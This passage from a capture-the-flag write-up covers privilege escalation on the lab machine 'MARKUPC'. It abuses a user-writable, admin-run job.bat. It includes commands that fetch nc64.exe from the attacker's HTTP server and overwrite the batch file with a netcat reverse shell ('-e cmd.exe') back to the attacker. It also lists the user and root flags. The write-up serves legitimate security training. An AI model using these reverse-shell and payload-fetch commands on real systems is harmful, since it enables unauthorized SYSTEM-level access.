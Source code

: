 > *wevtutil.exe* application is the windows event log utility. This searches for
> wevutil.exe with parameters for clearing the application, security, setup, 
> trace or system event logs. [Ref](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/wevtutil)

- This `job.bat` seems to be clearing some logs

---

## PRIVILEGE ESCALATION

- We have found the User flag but we need to get the administrator flag
- To do this we have to perform some privilege escalation techniques
- The only attack vector we have from our investigation is the `job.bat` file
- The file can only be ran as Administrator 
- This means that if we manage the get a command running from the file it runs as root
- Let's see if the user daniel can at least modify the file

```bash
daniel@MARKUPC:\Log-Management\> icacls job.bat

job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)

daniel@MARKUPC:\Log-Management\> 
```

- We see that Users has full permission over the file
- On our local machine let's download Netcat for windows

```bash
$ wget https://github.com/rahuldottech/netcat-for-windows/releases/download/1.12/nc64.exe
$ python3 -m http.server
```

- On the SSH connection inside the Log-Management folder type

```bash
daniel@MARKUPC:\Log-Management\> powershell
PSC:\Log-Management> wget http://{MyIP}:8000/nc64.exe -outfile nc64.exe
PSC:\Log-Management> ps
(We need to be sure the wevtutil)
PSC:\Log-Management> exit
```

- Setup a netcat listener on the local machine
- Finally type the following command

```
echo C:\Log-Management\nc64.exe -e cmd.exe {MyIP} {port} > job.bat
```

- Wait for the connection from the remote host to the nc listener
- We are root inside the system
- The root flag is in `C:\Users\Administrator\Desktop\root.txt`


---

## FLAGS

USER: 032d2fc8952a8c24e39c8f0ee9918ef7

ROOT: f574a3e7650cebd8c39784299cb570f8